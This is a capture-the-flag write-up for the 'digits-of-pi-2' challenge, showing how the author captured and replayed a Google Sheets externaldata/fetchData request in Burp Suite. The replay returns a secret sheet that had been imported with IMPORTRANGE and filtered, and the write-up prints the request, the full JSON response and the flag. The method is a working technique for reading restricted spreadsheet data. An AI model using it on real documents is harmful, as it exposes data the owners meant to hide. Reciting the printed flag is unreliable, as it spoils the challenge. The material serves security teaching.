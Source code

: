 # digits-of-pi-2 (70 solves, 474 points)

## Description:
This [spreadsheet](https://docs.google.com/spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/edit) is Secure™

## Solution:
In this challenge instead of the secret sheet being on the same Google Sheet, it is imported using the IMPORTRANGE function. 

![alt text](formula.png "Formula")

However, the entire sheet is imported and then filtered on the google Sheet we have access to. So we could intercept the request to get the entire secret sheet. I will use BurpSuite to do this.

Looking through the requests in the HTTP reuqest history I saw this one which looked suspicious(the externalDataBathRequest confirmed this)

```
POST /spreadsheets/d/1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M/externaldata/fetchData?id=1NX9nUMrpaxGqChQ7ROzITDtlxaz5McSsN5BMs-o5k-M&sid=166fbbcbfe3b9199&vc=0&c=0&w=0&flr=0&smv=97&includes_info_params=true HTTP/2

Host: docs.google.com

...

externalDataBatchRequest=%7B%221%22%3A%5B%7B%221%22%3A%22customFunctionMap%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22protectedRangeInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22dbExecutionInfo%22%2C%222%22%3A%22%22%7D%2C%7B%221%22%3A%22%7B1%3D4%2C7%3D%7B1%3D44%231MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A%2C2%3D3%23A%3AZ%7D%7D%22%2C%222%22%3A%22%22%7D%5D%7D&esid=166fbbcbfe3b9199
```
Sending this the repeater tab and sending it, I got the following response with the flag:
```
HTTP/2 200 OK

Content-Type: application/json; charset=utf-8

X-Robots-Tag: noindex, nofollow, nosnippet

X-Content-Type-Options: nosniff

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: Mon, 01 Jan 1990 00:00:00 GMT

Date: Sun, 20 Jun 2021 03:24:00 GMT

X-Frame-Options: SAMEORIGIN

Content-Security-Policy: frame-ancestors 'self'

X-Xss-Protection: 1; mode=block

Server: GSE

Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-T051=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"



[null,[[null,"customFunctionMap",null,[null,null,null,null,""]],[null,"protectedRangeInfo","[]\n",[null,0.0,null,null,"d751713988987e9331980363e24189ce"]],[null,"dbExecutionInfo",null,[null,0.0,null,null,"e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855"]],[null,"{1\u003d4,7\u003d{1\u003d44#1MD4O3pFoQY59_YoW_ZzxRUg-rBgHFlAaYxnNABmqc3A,2\u003d3#A:Z}}","[null,1000,26,[[null,0,[[null,0,[null,[null,0]\n,[null,3,null,0]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999440]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"Source:\"]\n]\n]\n]\n]\n,[null,1,[[null,0,[null,[null,0]\n,[null,3,null,1]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999333]\n]\n]\n,[null,2,[null,[null,0]\n,[null,2,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n,\"https://blogs.sas.com/content/iml/2015/03/12/digits-of-pi.html\"]\n]\n]\n]\n,[null,2,[[null,0,[null,[null,0]\n,[null,3,null,2]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000306]\n]\n]\n]\n]\n,[null,3,[[null,0,[null,[null,0]\n,[null,3,null,3]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999964]\n]\n]\n]\n]\n,[null,4,[[null,0,[null,[null,0]\n,[null,3,null,4]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1001093]\n]\n]\n]\n]\n,[null,5,[[null,0,[null,[null,0]\n,[null,3,null,5]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000466]\n]\n]\n]\n]\n,[null,6,[[null,0,[null,[null,0]\n,[null,3,null,6]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999337]\n]\n]\n]\n]\n,[null,7,[[null,0,[null,[null,0]\n,[null,3,null,7]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000207]\n]\n]\n]\n]\n,[null,8,[[null,0,[null,[null,0]\n,[null,3,null,8]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,999814]\n]\n]\n]\n]\n,[null,9,[[null,0,[null,[null,0]\n,[null,3,null,9]\n]\n]\n,[null,1,[null,[null,0]\n,[null,3,null,1000040]\n]\n]\n]\n]\n,[null,36,[[null,14,[null,[null,0]\n,[null,2,\"m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s\"]\n]\n]\n]\n]\n]\n]\n",[null,1.624158716438E9,null,null,"�/�~�F��6\f�\f����",1.624156916287E9,null,null,[]]]]]
```
## Flag:
`
flag{m4k3_sur3_t0_r3str1ct_y0ur_imp0rtr4ng3s}`
